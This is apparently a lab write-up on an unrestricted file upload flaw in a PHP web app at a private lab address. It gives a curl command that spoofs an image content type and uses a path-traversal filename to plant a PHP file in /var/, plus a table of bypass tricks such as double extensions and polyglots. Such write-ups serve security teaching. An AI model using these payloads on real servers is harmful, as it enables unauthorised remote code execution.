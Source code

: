 # 📤🔓 File Upload Bypass (Unrestricted File Upload)

> **OWASP Category:** A04:2021 – Insecure Design  
> **Severity:** 🔴 Critical  
> **Difficulty:** 🟡 Medium

The website has an image upload functionality at `/index.php?page=upload` that accepts image files. However, the application has multiple security flaws: weak file type validation that can be bypassed, and improper file path handling that allows attackers to upload malicious files to arbitrary locations on the server.

🎯 **Double Trouble:** This vulnerability combines weak validation with path traversal - a dangerous combination that can lead to Remote Code Execution!

---

## 🎯 Exploit Technique

### 🔧 Attack Evolution

#### 🥇 **First Attempt - Simple Bypass**
```bash
# Try uploading PHP file disguised as image
mv malicious.php malicious.jpeg
# Upload via web interface
# Result: File uploaded to /tmp but immediately deleted
```

#### 🥈 **Second Attempt - CURL with Path Traversal**
```bash
curl -X POST \
  -F "uploaded=@aaa.jpeg;filename=../../../../../../../../../../../../../var/aaa.php" \
  -F "Upload=Upload" \
  http://192.168.64.2/index.php\?page\=upload
```

**Exploitation breakdown:**
1. 🎭 **Content-Type Spoofing** - Tell server it's an image via CURL
2. 📁 **Path Traversal** - Use `../` sequences to escape intended directory
3. 🎯 **Target Directory** - Upload to `/var/` instead of `/tmp/`
4. 🔥 **Persistence** - File survives in permanent location
5. 🏆 **Success** - PHP code execution achieved

### 🌍 Attack Variations

| Method | Bypass Technique | Target |
|--------|------------------|--------|
| **🎭 Extension Spoofing** | `malicious.php.jpg` | Fool weak validation |
| **📄 MIME Type Manipulation** | Change Content-Type header | Bypass server-side checks |
| **🔧 Double Extension** | `shell.php.jpeg` | Confuse parsing logic |
| **📁 Path Traversal** | `../../../var/shell.php` | Escape upload directory |
| **🧬 Polyglot Files** | Valid image + PHP code | Bypass all validation |

---
